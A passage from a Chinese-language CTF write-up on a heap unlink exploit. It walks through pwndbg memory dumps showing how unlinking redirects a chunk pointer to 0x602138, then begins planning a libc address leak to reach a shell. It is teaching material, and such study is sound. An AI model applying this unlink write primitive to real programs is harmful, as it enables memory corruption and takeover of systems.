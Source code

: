 ② 接下来执行`third_fd = first_addr`，即third_chunk的fd由由原来指向fake_chunk地址更改成first_chunk地址：

```python
#摘除第二步完成，third_chunk
pwndbg> x/16gx 0x602140
0x602140:	0x0000000000000000	0x0000000000e05420 
0x602150:	0x0000000000602138	0x0000000000e05980 
            #fd                 #bk
0x602160:	0x0000000000000000	0x0000000000000000
0x602170:	0x0000000000000000	0x0000000000000000
0x602180:	0x0000000000000000	0x0000000000000000
0x602190:	0x0000000000000000	0x0000000000000000
0x6021a0:	0x0000000000000000	0x0000000000000000
0x6021b0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

这里需要注意的是`third_chunk的fd`与`first_chunk的bk`更改的其实是一个位置，但是由于third_fd = first_addr`后执行`，所以此处内容会从0x602140被覆盖成0x602138

最后free(chunk3)：

```python
#摘除第二步完成，third_chunk
pwndbg> x/16gx 0x602140
0x602140:	0x0000000000000000	0x0000000000e05420 
0x602150:	0x0000000000602138	0x0000000000000000 
0x602160:	0x0000000000000000	0x0000000000000000
0x602170:	0x0000000000000000	0x0000000000000000
0x602180:	0x0000000000000000	0x0000000000000000
0x602190:	0x0000000000000000	0x0000000000000000
0x6021a0:	0x0000000000000000	0x0000000000000000
0x6021b0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

## 5、泄露函数地址
好了，上面就是这道题完整的unlink过程了，由于这个程序本身并没有system("/bin/sh")，所以接下来需要考虑的就是通过泄露的方式来从libc中寻找了。在泄露之前呢，我们先看一下，经过unlink之后堆地址指针数组变成了什么样子，因为再怎么说，我们也得从程序修改功能中输入来控制执行流程，所以这部分还得是从指针数组（以下简称s[]数组）入手：

```python
pwndbg> x/16gx 0x602140
0x602140:	0x0000000000000000	0x0000000000e05420 #s[0] s[1]
0x602150:	0x0000000000602138	0x0000000000000000 #s[2] 原s[3]
0x602160:	0x0000000000000000	0x0000000000000000
0x602170:	0x0000000000000000	0x0000000000000000
```

可以看到经过unlink之后chunk指针数组内部变成了这样。s[1]就是chunk1的data指针，因为整个过程中chunk1并没有使用过，所以s[1]并无大碍。但是s[2]的位置原本是chunk2的data指针，经过unlink之后变成了`0x602138`。最后就是s[3]了，这里原本是chunk3的data指针，但是由于前面为了触发unlink，所以chunk3被释放了，所以s[3]中被置空。

那么我们去想，如果我们在主界面选择修改功能，并且选择修改chunk2，那么实际上输入的内容并不会写进chunk2，而是写进`0x602138`：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1601195372253-3b329d49-bc26-4252-b075-3f192fe9220a.png)
